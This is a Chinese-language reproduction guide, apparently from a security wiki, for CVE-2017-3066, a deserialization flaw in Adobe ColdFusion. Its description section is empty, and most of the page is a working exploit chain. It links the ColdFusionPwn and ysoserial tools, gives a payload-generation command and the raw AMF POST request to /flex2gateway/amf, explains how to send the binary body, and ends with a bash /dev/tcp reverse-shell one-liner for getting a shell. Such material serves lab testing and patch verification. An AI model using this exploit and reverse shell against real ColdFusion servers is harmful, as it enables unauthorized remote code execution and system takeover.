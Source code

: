 ```yaml
---
title: "（CVE-2017-3066）Adobe ColdFusion 反序列化漏洞"
id: zhfly2806
---
```


# （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

## 三、复现过程

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。
[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

> ## Usage
> 
> ```
> java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile] 
> ```

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)
【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser 
```

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853 `[…poc…]` 
```

![image](../img/68b10682ce9913b874ca871a4bd0fb7b.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![image](../img/3ef0eb4513a853e0c2d867f392ed278b.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![image](../img/07535ef03fe57b7689af3d0a04398d60.png)

进入容器中，发现`/tmp/success`已成功创建：

![image](../img/a2fe6db61dd13cf1681615fb0cde6b83.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![image](../img/36bef43c7be4531bf8ad9b225bfb987e.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

```
bash -i >& /dev/tcp/ip/port 0>&1 
```

## 参考链接

> https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/
